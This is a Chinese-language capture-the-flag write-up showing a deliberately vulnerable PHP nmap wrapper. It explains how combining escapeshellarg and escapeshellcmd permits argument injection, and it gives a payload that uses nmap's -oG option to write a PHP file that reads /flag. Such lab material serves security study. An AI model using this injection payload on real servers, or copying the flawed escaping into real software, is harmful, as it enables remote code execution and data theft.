

源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

命令执行拼接，这两个函数做了一些限制

```php
$host = escapeshellarg($host);
    //escapeshellarg
    //1,确保用户值传递一个参数给命令
    //2,用户不能指定更多的参数
    //3,用户不能执行不同的命令
$host = escapeshellcmd($host);
    //escapeshellcmd
    //1,确保用户只执行一个命令
    //2,用户可以指定不限数量的参数
    //3,用户不能执行不同的命令
```

也就是说在 host 变量里面我们不能使用 `; & |` 等符号来执行多条命令，不过题目里面提示了我们 RCE，同时对于这两个函数简单查找了之后，发现两个一起使用的时候存在漏洞

```none
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

所以经过我们构造之后，输入的值被分割成为了三部分，第一部分就是curl的IP，为 `172.17.0.2\`，第二部分就是两个配对的单引号 ' ' ，第三部分就是命令参数以及对象 `-v -d a=1'`


同时，为了构造命令读取flag,我们应当从nmap入手，查资料可以知道，nmap有一个参数-oG可以实现将命令和结果写到文件

所以我们可以控制自己的输入写入文件，这里我们可以写入一句话木马，也可以直接命令 cat flag

构造的payload为:

```zpayload
?host=' <?php echo `cat /flag`;?> -oG test.php '
```

再访问 `mkdir` 之后的文件夹中的文件即可。




